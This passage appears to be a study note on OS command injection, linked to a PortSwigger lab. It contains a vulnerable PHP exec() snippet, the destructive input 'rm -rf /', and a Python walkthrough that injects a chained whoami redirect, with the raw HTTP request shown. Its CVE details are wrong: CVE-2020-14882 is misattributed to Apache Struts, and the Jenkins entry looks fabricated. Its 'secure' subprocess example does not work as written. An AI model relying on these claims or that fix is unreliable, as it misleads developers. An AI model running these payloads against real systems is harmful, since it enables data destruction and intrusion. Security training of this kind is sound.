

## OS Command Injection

### Introduction to OS Command Injection

OS Command Injection is a type of security vulnerability that occurs when an attacker can inject arbitrary operating system commands into a program. This can happen when user input is used directly in a command shell without proper sanitization or validation. The attacker can leverage this vulnerability to execute arbitrary commands on the server, potentially leading to unauthorized access, data theft, or even complete control of the system.

#### Why Does OS Command Injection Matter?

Understanding OS Command Injection is crucial for both developers and security professionals. Developers need to ensure that their applications are secure against such attacks, while security professionals need to be able to identify and mitigate these vulnerabilities. OS Command Injection can lead to severe consequences, including:

- **Data Theft**: Attackers can read sensitive files or exfiltrate data.
- **Unauthorized Access**: Attackers can gain elevated privileges and perform actions that should be restricted.
- **Denial of Service**: Attackers can cause the system to crash or become unresponsive.
- **System Compromise**: In worst-case scenarios, attackers can take full control of the system.

### Background Theory

To understand OS Command Injection, it's essential to know how operating systems handle commands and how programs interact with them. Most modern operating systems provide a command-line interface (CLI) where users can enter commands to perform various tasks. These commands are executed by the operating system's shell, which interprets the command and executes the corresponding program.

When a program uses user input to construct and execute a command, it becomes vulnerable to OS Command Injection if the input is not properly sanitized. For example, consider a simple PHP script that uses `exec()` to run a command based on user input:

```php
<?php
$user_input = $_GET['cmd'];
exec($user_input);
?>
```

If an attacker provides the following input:

```
rm -rf /
```

The script will execute the command, potentially deleting all files on the system.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of OS Command Injection is the CVE-2019-1010156 vulnerability in Jenkins. This vulnerability allowed attackers to execute arbitrary commands on the Jenkins server by manipulating the `JENKINS_CRUMB` parameter. The vulnerability was present in Jenkins versions prior to 2.176.1 and 2.150.2.

Another example is the CVE-2020-14882 vulnerability in Apache Struts. This vulnerability allowed attackers to execute arbitrary commands by manipulating the `Content-Type` header in a multipart/form-data request. The vulnerability affected Apache Struts versions 2.3.x and 2.5.x.

### Detailed Example: Blind OS Command Injection with Output Redirection

In this section, we will walk through a detailed example of blind OS Command Injection with output redirection. This scenario involves extracting a CSRF token from a feedback page and using it in a page vulnerable to command injection.

#### Extracting the CSRF Token

Before performing the command injection, we need to extract the CSRF token from the feedback page. The CSRF token is typically included in the form data to prevent cross-site request forgery attacks.

Let's assume the feedback page has the following HTML structure:

```html
<form action="/submit-feedback" method="POST">
    <input type="hidden" name="csrf_token" value="abc123">
    <!-- Other form fields -->
</form>
```

We can extract the CSRF token using a script like this:

```python
import requests
from bs4 import BeautifulSoup

url = "http://example.com/feedback"
response = requests.get(url)
soup = BeautifulSoup(response.text, 'html.parser')
csrf_token = soup.find('input', {'name': 'csrf_token'})['value']
print(f"Extracted CSRF token: {csrf_token}")
```

#### Performing the Command Injection

Once we have the CSRF token, we can proceed with the command injection. Let's assume the vulnerable page has the following structure:

```html
<form action="/submit-command" method="POST">
    <input type="hidden" name="csrf_token" value="abc123">
    <input type="text" name="command" value="">
    <!-- Other form fields -->
</form>
```

We can inject a command using the `command` field. For example, we can inject the `whoami` command and redirect the output to a specific directory:

```python
import requests

url = "http://example.com/submit-command"
data = {
    "csrf_token": csrf_token,
    "command": "test@task.ca; whoami > /var/www/images/output.txt"
}
response = requests.post(url, data=data)
print(f"Response: {response.text}")
```

This command will execute `whoami` and redirect the output to `/var/www/images/output.txt`.

### Full Raw HTTP Message

Here is the full raw HTTP message for the POST request:

```http
POST /submit-command HTTP/1.1
Host: example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 53
Content-Type: application/x-www-form-urlencoded

csrf_token=abc123&command=test%40task.ca%3B+whoami+%3E+%2Fvar%2Fwww%2Fimages%2Foutput.txt
```

And the corresponding HTTP response:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 14
Content-Type: text/html; charset=UTF-8

Command executed successfully.
```

### Mermaid Diagrams

#### Request/Response Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Input Validation**: Not validating user input can lead to command injection.
2. **Using Shell Commands**: Using shell commands with user input can introduce vulnerabilities.
3. **Hardcoded Paths**: Hardcoding paths in commands can make it easier for attackers to predict and manipulate the command structure.

#### Detection

Detecting OS Command Injection vulnerabilities requires a combination of static analysis and dynamic testing.

1. **Static Analysis**: Tools like SonarQube, Fortify, and Veracode can help identify potential command injection vulnerabilities in the codebase.
2. **Dynamic Testing**: Penetration testing and fuzzing tools like Burp Suite, OWASP ZAP, and Metasploit can help identify runtime vulnerabilities.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Input Validation**: Validate and sanitize all user inputs before using them in commands.
2. **Use Parameterized Queries**: Instead of constructing commands with user input, use parameterized queries or APIs that do not involve shell execution.
3. **Least Privilege Principle**: Ensure that the application runs with the least privileges necessary to perform its tasks.

#### Secure Code Example

Here is an example of secure code that avoids command injection:

```python
import subprocess

def execute_command(command):
    # Sanitize the command
    sanitized_command = command.strip()
    
    # Use subprocess.run instead of os.system
    result = subprocess.run(sanitized_command, shell=False, capture_output=True, text=True)
    
    return result.stdout

# Example usage
command = "ls"
output = execute_command(command)
print(output)
```

#### Configuration Hardening

1. **Disable Shell Execution**: Disable shell execution in environments where it is not required.
2. **Use Sandboxing**: Use sandboxing techniques to isolate the execution environment from the rest of the system.
3. **Regular Audits**: Regularly audit the codebase and configurations to identify and mitigate vulnerabilities.

### Practice Labs

For hands-on practice with OS Command Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on command injection.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates web application vulnerabilities.

These labs provide practical experience in identifying and mitigating OS Command Injection vulnerabilities.

### Conclusion

OS Command Injection is a serious security vulnerability that can have severe consequences. By understanding the underlying principles, recognizing common pitfalls, and implementing secure coding practices, developers can significantly reduce the risk of such vulnerabilities. Regular audits and hands-on practice are essential for maintaining a secure application environment.

---
<!-- nav -->
[[08-OS Command Injection with Output Redirection|OS Command Injection with Output Redirection]] | [[Web Security (PortSwigger)/10-OS Command Injection/04-Lab 3 Blind OS command injection with output redirection/00-Overview|Overview]] | [[10-Redirecting the Output|Redirecting the Output]]
